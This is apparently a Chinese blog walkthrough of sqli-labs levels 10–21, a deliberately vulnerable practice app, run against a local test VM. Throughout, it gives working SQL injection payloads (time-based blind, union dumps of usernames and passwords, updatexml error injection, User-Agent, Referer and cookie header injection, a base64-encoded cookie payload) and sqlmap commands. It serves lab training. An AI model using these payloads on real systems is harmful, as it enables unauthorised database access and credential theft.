

sql-labs通关笔记(下)
sql-labs通关笔记(下)

上次漏了第十关，这次补上，另外几乎所有用到的知识点都在上篇了，找到数据库名之后的操作就不再赘述，在上篇都有讲
上篇地址：sql-labs通关笔记（上）/)
Less-10：GET -Blind -Time based -double quotes
界面
在url中加入?id=1

在url中加入?id=-1

可以基本判断和上一题一样依旧是时间盲注
判断注入点
使用各种符号加上 and sleep(3)—+来判断闭合方式，需要保持and前的条件为真
payload
1 | ?id=1" and sleep(3)--+ |
结果：判断闭合方式为双引号

爆破数据库名
payload
1 | ?id=1" and if(ascii(substring((select database()),1,1))>10,sleep(3),0)--+ |
结果：判断出数据库的第一个字符为s，睡眠三秒，后面将使用sqlmap进行演示

payload
1 | sqlmap -u "http://192.168.199.128/sqli/Less-10/?id=1" --threads 10 --level 2 --batch |
- —level 指需要执行的测试等级，一共有5个等级（1~5级），可不加“level”，默认是1级,5级尝试的payload最多，但是也最慢，这里只需要使用二级即可
- —batch 从不询问用户输入，默认yes
结果：判断为时间盲注

payload
1 | sqlmap -u "http://192.168.199.128/sqli/Less-10/?id=1" --threads 10 --level 2 --batch --current-db |
结果：得到数据库名security，后面我们就不再演示，第十关结束

POST注入
Less-11：POST -Error Based -single quotes- string
界面

判断注入点
像是这种post类型的，可以现在每一个输入框内进行尝试，先在username中使用单引号进行尝试
payload
1 | 1' or 1=1 # |
结果：登陆成功，说明闭合方式为单引号，并且有回显，我们就可以尝试联合查询注入

判断字段数
payload
1 | 1' order by 3 # |
结果：不是三列

payload
1 | 1' order by 2 # |
结果：字段数为2列

判断回显位
payload
1 | -1' union select 1,2 # |
结果：

爆破数据库名
payload
1 | -1' union select 1,database() # |
结果：得到数据库名称security

爆破表名
payload
1 | -1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='security' # |
结果：表名emails,referers,uagents,users

爆破字段名
payload
1 | -1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' # |
结果：users表的字段名id,username,password

爆破数据
payload
1 | -1' union select 1,group_concat(username,0x7e,password) from users # |
结果：得到数据

Less-12：POST-Error Based-Double quotes-String -with twist
界面

判断注入点
因为有回显，所以直接用\判断注入点以及闭合方式
payload
1 | \ |
报错信息：去掉用来引出报错信息的单引号，发现闭合方式是双引号+括号
1 | near '"\") and password=("") LIMIT 0,1' at line 1 |

判断字段数
payload
1 | 1"order by 2 # |
结果：字段数为2

判断回显位置
payload
1 | 1") union select 1,2 # |
结果：

爆破数据库名
payload
1 | 1") union select 1,database() # |
结果：得到数据库名为security，后面就不在赘述，第十二关结束

Less-13：PosT -Double Injection -Single quotes- string - with twist
界面

判断注入点
payload
1 | \ |
报错信息：单引号加括号闭合
1 | near ''\') and password=('') LIMIT 0,1' at line 1 |

payload：使用万能密码登录
1 | 1') or 1=1# |
结果：无回显，但是一开始我们知道有报错信息，可以使用报错注入

payload
1 | 1') and updatexml(1,concat(0x7e,database()),1)# |
结果：爆破出数据库名，后面不再演示，第十三关结束

Less-14：PosT -Double Injection -single quotes- string -with twist
界面

判断注入点
直接\
报错信息：使用双引号闭合
1 | near '"\" and password="" LIMIT 0,1' at line 1 |
爆破数据库名
payload
1 | " and updatexml(1,concat(0x7e,database()),1) # |
结果：security，后面不再演示，第十四关结束

Less-15：PosT -Blind-Boolian/time Based -Single quotes
界面

判断注入点
payload：无回显，使用各种符号结合orr1=1进行判断注入点
1 | -1' or 1=1# |
结果：判断闭合方式为单引号

爆破数据库
payload：
1 | 1' or substring(database(),1,1)='s'# |
结果：得到数据库为security，后面可以使用sqlmap，不再演示，第十五关结束

Less-16：PosT -Blind-Boolian/Time Based -Double quotes
界面

判断注入点
payload
1 | 1") or 1=1# |
结果：判断出闭合方式为双引号+括号

爆破数据库名
1 | 1") or substring(database(),1,1)='s'# |
结果：得到数据库名

使用sqlmap进行POST注入
这里需要结合我们的burp进行抓包
结果：将最后一行的post传递的参数复制下来
1 | uname=1%22%29+or+database%28%29%3D%27security%27%23&passwd=&submit=Submit |

现在使用我们的sqlmap
payload
1 | sqlmap -u "http://192.168.199.128/sqli/Less-16/" --data="uname=1&passwd=&submit=Submit" --threads 10 --level 3 |
- — data 表示post传递的数据 后面跟我们刚刚在burp中复制的东西
结果：发现存在盲注

使用sqlmap爆破数据库名
payload
1 | sqlmap -u "http://192.168.199.128/sqli/Less-16/" --data="uname=1&passwd=&submit=Submit" --threads 10 --level 3 --current-db |
结果：得到数据库名，后面不多赘述，第十六关结束

Less-17：PosT -Update Query- Error Based -string
界面

判断注入点
可以看到上面有一个大大的黄字，说是密码重置，那么一般遇到密码重置的页面，我们一般都是通过给出正确的用户名来进行修改，先对username判断有没有注入点
payload
1 | 各种符号或存在的用户名+符号 |
结果：发现有做防护，只有在username完全是存在的用户名时才不会报错

payload
1 | dumb |
结果：username无注入点，接下来测试password

payload
1 | username:dumb |
结果：无回显，但是存在报错，可以使用报错注入

爆破数据库
payload
1 | username:dumb |
结果：得到数据库名称，后面步骤重复，不再演示，第十七关结束

Less-18：POST -Header injection -Uagent field - Error based

判断注入点
payload
1 | 在username和password中各种测试 |
结果：除了正常登陆外，没有发现别的异常

payload
我们选择一个正常的账户进行登录
1 | admin |
结果：有回显，内容其实是请求头中的内容user-agent，抓包

抓包放到重放器中

在重放器中找到我们的user-agent来判断是否存在注入点
1 | User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0)' |
结果：报错，可以使用报错注入
1 | near 'Gecko/20100101Firefox/127 0','127.0 0 1','admin at line 1 |

爆破数据库名
payload：
1 | User-Agent: ' or updatexml(1,concat(0x7e,(select database())),1),1) # |
分析：
因为根据报错信息可知，闭合方式为单引号和括号，但是因为这句并不是查询语句。所以并不能直接闭合然后在用and报错注入，先把单引号闭合然后 报错注入后再闭合括号
结果：得到数据库名，后续操作不再演示，第十八关结束

Less-19：POST-HeaderIniection-Referer field -Error based
界面

判断注入点
payload
1 | 先使用admin，admin或一个确定的账户登录，查看回显 |
结果：回显refer，用老办法尝试username和password处并不存在注入点，因此抓包判断refer

抓包：依旧放到重放器中

payload
1 | Referer: ' |
结果：报错，发现闭合方式为单引号和括号，可以使用报错注入

爆破数据库名
payload
1 | Referer: ') or updatexml(1,concat(0x7e,database()),1)# |
结果：直接闭合单引号括号，报错猜测是插入语句

payload：验证一下是不是插入语句
1 | ') # |
结果：经典的插入语句报错

payload
1 | ' or updatexml(1,concat(0x7e,database()),1))# |
结果：得到数据库名，后面不再演示，第十九关结束

Less-20：POST-Cookie injections -Uagent field -error based.
界面

判断注入点
依旧在username和password中找不到注入点
使用正确的账户进行登录admin，admin

抓包并上传到重放器，抓登陆后的

在username处进行尝试看看是否存在注入点
payload
1 | Cookie: uname=' ; |
结果：根据报错信息可知其使用单引号闭合

爆破数据库名
payload
1 | uname=' and updatexml(1,concat(0x7e,database()),1)# |
结果：得到数据库名，后面不再赘述，第二十关结束

Less-21：POST- Dump into outfile -string .
界面

判断注入点
使用正常用户登录admin，admin

刷新，抓包，并发送到重放器

发现Cookie中的uname使用的是BASE64加密很可疑，我们可以使用burp自带的解密进行查看，注意：其中%3D为URL编码，意思是=，防止base64解密出错，可以先URLdecode

同时也可以利用自带的base64-encode进行加密，我们使用单引号然后base64加密进行构造payload看看是否存在注入点
payload：
1 | Cookie: uname=Jw==; |
结果：根据报错信息可知，闭合方式为单引号+括号（为什么三个单引号，因为我们前面没填东西，就把前面的一个单引号给爆出来了）

payload
1 | Cookie: uname=JykgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLGRhdGFiYXNlKCkpLDEpIw== ; |
结果：得到数据库名称，后面不再赘述，第二十一关结束